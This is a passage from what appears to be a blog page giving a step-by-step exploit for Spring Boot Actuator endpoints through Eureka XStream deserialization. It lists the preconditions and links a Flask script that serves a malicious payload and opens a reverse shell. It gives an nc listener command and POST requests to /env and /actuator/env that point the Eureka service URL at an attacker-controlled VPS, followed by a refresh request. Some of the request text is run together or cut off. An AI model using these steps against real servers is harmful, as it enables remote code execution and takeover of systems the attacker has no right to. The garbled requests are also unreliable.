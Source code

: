 ```
http://127.0.0.1:9092/env _
```

### Eureka XStream Deserialization RCE

**[](https://www.blogger.com/#)Conditions of use:**

- You can POST requests to the /envinterface set properties

- You can POST request the /refreshinterface refresh the configuration ( spring-boot-starter-actuatordependency exists)

- eureka-client< spring-cloud-starter-Netflix-eureka-client1.8.7 used by the target (usually included in dependencies)

- The target can request the attacker's HTTP server (the request can go out of the Internet)

[](https://www.blogger.com/#)**How to use:**\
[](https://www.blogger.com/#)**Step 1:** Set up a website that responds to a malicious XStream payload

- [Provide an example of a python script](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-xstream-rce.py) that relies on Flask and meets the requirements, and uses the python that comes with the target Linux machine to bounce the shell.

- Use python to run the above script on the server you control, and modify the ip address and port number of the rebound shell in the script according to the actual situation.

[](https://www.blogger.com/#)**Step 2:** Listen to the port of the bouncing shell

- Generally, use nc to listen to the port and wait for the rebound shell

```
nc -lvp 443
```

[](https://www.blogger.com/#)**Step 3:** Set the eureka.client.serviceUrl.defaultZone property

**spring 1.x**

```
POST /envContent-Type: application/x-www-form-urlencodedeureka .client .serviceUrl .defaultZone =http: //your-vps-ip/example
```

**spring 2.x\
**

```
POST /actuator/ envContent-Type: application/json{ "name" : "eureka.client.serviceUrl.defaultZone" , "value" : " http :// your - vps - ip / example " }
```

[](https://www.blogger.com/#)**Step 4:** Refresh the configuration

**spring 1.x\
**

```
POST /refreshContent - Type : application/x- www- form - urlencoded
```

